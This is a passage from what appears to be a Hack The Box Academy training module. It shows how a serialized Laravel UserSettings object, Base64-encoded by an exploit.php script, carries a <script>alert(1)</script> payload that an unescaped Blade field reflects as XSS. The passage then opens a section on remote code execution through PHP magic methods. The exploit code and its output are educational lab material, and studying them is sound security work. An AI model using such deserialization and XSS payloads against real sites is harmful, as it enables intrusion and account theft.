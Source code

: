 Laravel uses the [Blade templating engine](https://laravel.com/docs/9.x/blade) for rendering its pages, and usually, when we are displaying variables in templates, we enclose them with `{{ ... }}`. We can check the [documentation](https://laravel.com/docs/9.x/blade#displaying-unescaped-data) and see that enclosing a variable in `{!! ... !!}` means it will not be run through `htmlspecialchars` before being displayed.

User-controlled data, which is displayed back to us without being escaped, is a perfect scenario for XSS, so we can update our `exploit.php` file to verify this vulnerability by setting the `Name` field to `<script>alert(1)</script>`:

```php
...
echo base64_encode(serialize(new \App\Helpers\UserSettings('<script>alert(1)</script>', '[email protected]', '$2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda', 'default.jpg')));

```

Running `exploit.php` again, we get another Base64-encoded payload:

```shell
php exploit.php

TzoyNDoiQXBwXEhlbHBlcnNcVXNlclNld...SNIP...x0LmpwZyI7fQ==

```

Local testing confirms the payload works as expected:

```shell
php target.php

TzoyNDoiQXBwXEhlbHBlcnNcVXNlclNld...SNIP...x0LmpwZyI7fQ==

$user->name = <script>alert(1)</script>
$user->email = [email protected]
$user->password = $2y$10$u5o6u2EbjOmobQjVtu87QO8ZwQsDd2zzoqjwS0.5zuPr3hqk9wfda
$user->profile_pic = default.jpg

ie-message => Imported settings for '<script>alert(1)</script>'

```

We can take this payload, and when we import it into the system, we should get a pop-up window signifying a successful `reflected XSS` attack.

![](https://academy.hackthebox.com/storage/modules/169/2/7-xss.png)


# RCE: Magic Methods

* * *

## Magic Methods

In the previous section, we identified that we could give ourselves an `@htbank.com` email address and found an XSS vulnerability. As the last step, we will try to get remote code execution on the server.
